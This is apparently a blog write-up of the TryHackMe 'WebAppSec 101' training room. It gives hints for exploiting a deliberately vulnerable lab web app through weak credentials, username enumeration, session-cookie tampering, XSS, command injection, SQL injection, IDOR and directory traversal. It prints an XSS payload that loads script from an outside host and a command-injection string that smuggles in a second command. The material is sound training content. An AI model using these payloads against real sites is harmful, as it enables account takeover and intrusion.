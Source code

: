 +++
title = "TryHackMe WebAppSec 101 Write-Up"
date = "2020-03-22"
author = "Mark Ramige"
authorTwitter = "markramige" #do not include @
cover = ""
tags = ["weak credentials", "idor", "sql injection", "logic flaws", "directory traversal"]
keywords = ["weak credentials", "idor", "sql injection", "logic flaws", "directory traversal"]
description = "[This TryHackMe room](https://tryhackme.com/room/webappsec101) contains a web application with multiple vulnerabilities. The tasks step us through different types of vulnerabilities with links to authoritative resources to learn more about each type. There is a good combination of hand-holding and do-it-yourself. The vulnerabilities include weak credentials, cross-site scripting (xss), command and sql injection, idor, directory traversal, and logic flaws."
showFullContent = false
+++

[This TryHackMe room](https://tryhackme.com/room/webappsec101) contains a web application with multiple vulnerabilities. The tasks step us through different types of vulnerabilities with links to authoritative resources to learn more about each type. There is a good combination of hand-holding and do-it-yourself. The vulnerabilities include weak credentials, cross-site scripting (xss), command and sql injection, idor, directory traversal, and logic flaws.

## Contents
* [Task 2 - Walking through the application](#task-2---walking-through-the-application)
* [Task 4 - Authentication](#task-4---authentication)
* [Task 5 - Cross Site Scripting (XSS)](#task-5---cross-site-scripting-xss)
* [Task 6 - Injection](#task-6---injection)
* [Task 7 - Miscellaneous & Logic Flaws](#task-7---miscellaneous--logic-flaws)

## Task 2 - Walking through the application
We can proxy the traffic through Burp Suite to view all of the response headers. For this web application, it sends a `Server` and `X-Powered-By` header with every response.

For the server specifically, we can also force it to produce a 404 error by visiting `http://MACHINE_IP/asdf` (or any other nonexisting page) and the server name and version is given on the 404 error page. We could also run `nmap -A -T4 MACHINE_IP` to get the server name and version.

* What version of Apache is being used?

Check the `Server` response header in Burp Suite.

* What language was used to create the website?

Check the `X-Powered-By` response header.

* What version of the language is used?

Check the `X-Powered-By` response header.

## Task 4 - Authentication
* What is the admin username?

There's a link to the admin area at the bottom of each page. Click on the link and try to guess the user name.

* What is the admin password?

Try to guess the password using common passwords.

An alternative to guessing (if this challenge was more difficult) would be to use Burp Suite Intruder to brute force the password using a word list.

* What is the name of the cookie that can be manipulated?

A cookie is set when logging into the admin page. The value is a single digit that can be easily manipulated to steal a session.

* What is the username of a logged on user?

For this we want to brute force the user creation page (`http://MACHINE_IP/users/register.php`) since it will tell us when an account already exists.

We can use [OWASP ZAP](https://owasp.org/www-project-zap/) to fuzz the user names since the Burp Suite Community Edition is slow at brute forcing.

We're going to use the [SecLists](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/Names/names.txt) user name list.

We're registering an account with each user name that gets submitted, so what we're looking for in the output is the name that can't be registered because it already exists.

* What is the corresponding password to the username?

Try guessing first based on what you know about the user name and user. If you can't guess the password, try brute forcing it with a [word list](https://github.com/danielmiessler/SecLists/tree/master/Passwords)

## Task 5 - Cross Site Scripting (XSS)

Use the first payload on the linked page to test for XSS.

`<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>`

* Test for XSS on the search bar

This input is vulnerable to reflected XSS.

* Test for XSS on the guestbook page

This input is vulnerable to stored XSS.

## Task 6 - Injection

* Perform command injection on the check password field

If we test the field, we get back `The command "grep ^test$ /etc/dictionaries-common/words" was used to check if the password was in the dictionary.` which is very handy!

We just need to end the grep command and insert our own command after it.

`'';ls;` should work for any command that we have permissions to run. This will hang the application.

* Check for SQLi on the application

The login form (http://MACHINE_IP/users/login.php) is vulnerable to SQLi. Try testing [payloads](https://medium.com/@ismailtasdelen/sql-injection-payload-list-b97656cfd66b) to see what is possible.

## Task 7 - Miscellaneous & Logic Flaws

* Find a parameter manipulation vulnerability

The sample page linked from the home page at `http://MACHINE_IP/users/sample.php?userid=1` contains the `userid` parameter that we can easily change to view additional photos.

* Find a directory traversal vulnerability

The file name field on the picture upload page (`http://MACHINE_IP/pictures/upload.php`) allows us to exploit directory traversal.

* Find a forceful browsing vulnerability

We can visit `http://MACHINE_IP/upload/` and view all images that have been uploaded by all users.

* Logic flaw: try to get an item for free

We can fuzz the coupon code field on the cart review page (`http://MACHINE_IP/cart/review.php`). Unsuccessful attempts give us a 303 status code.
